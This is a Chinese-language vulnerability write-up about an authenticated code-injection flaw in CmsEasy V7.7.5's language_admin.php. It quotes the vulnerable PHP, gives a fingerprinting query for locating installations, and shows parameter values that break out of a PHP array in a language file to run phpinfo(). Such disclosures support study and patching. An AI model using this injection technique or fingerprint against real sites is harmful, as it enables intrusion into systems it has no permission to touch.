







CmsEasy language_admin.php 后台命令执行漏洞¶
漏洞描述¶
CmsEasy 后台存在命令执行漏洞，通过文件 language_admin.php 对部分文件进行写入操作，导致任意文件写入
漏洞影响¶
CmsEasy V7.7.5_20210919
网络测绘¶
body="cmseasyedit"
漏洞复现¶

存在漏洞的文件为 lib/admin/language_admin.php

function add_action() {
$lang_choice='system.php';
if (isset($_GET['lang_choice'])){
$lang_choice=$_GET['lang_choice'];
}
if (front::post('submit')) {
$langid=front::get('id');
$lang=new lang();
$langdata = $lang->getrows('id='.$langid, 1);
if (is_array($langdata)){
$langurlname=$langdata[0]['langurlname'];
}else{
front::alert(lang_admin('language_pack').lang_admin('nonentity'));
}
$path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
$tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
$content=file_get_contents($path);
$tipscontent=file_get_contents($tipspath);
$replace="'".front::$post['key']."'=>'".front::$post['val']."',";
$tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
$content=str_replace(');',"\n".$replace.');',$content);
file_put_contents($path,$content);
$pos=strpos($tipscontent,$tipsreplace);
if ($langurlname != 'cn'&&$pos === false) {
$tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
file_put_contents($tipspath,$tipscontent);
}
if ($_GET['site'] != 'default') {
$ftp=new nobftp();
$ftpconfig=config::get('website');
$ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
$ftperror=$ftp->returnerror();
if ($ftperror) {
exit($ftperror);
}
else {
$ftp->nobchdir($ftpconfig['ftppath']);
$ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
}
}
event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
//
$shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
$shepi=$shepi.'&lang_choice='.$lang_choice;
$shepi=$shepi.'");</script>';
echo $shepi;
//exit;
//front::refresh(url('language/edit',true));
}
$this->view->lang_choice=$lang_choice;
}
访问这个页面

其中参数有三个，分别为 key , cnnote, val

传入参数后,查看 lang/cn/system_custom.php 文件中
<?php
/*
*中文语言包
*/
return
array(
'2'=>'3',);
?>
由于没有对传入的参数进行过滤，通过写入特殊的参数就可以逃逸出数组造成命令执行
分别传入两次参数
test1 test2 test3);
写入后文件内容
<?php
/*
*中文语言包
*/
return
array(
'test2'=>'test3);',);
?>
再传入一次参数
test4 ,test5, ,phpinfo());/*

写入后文件内容

访问文件 /lang/cn/system_custom.php
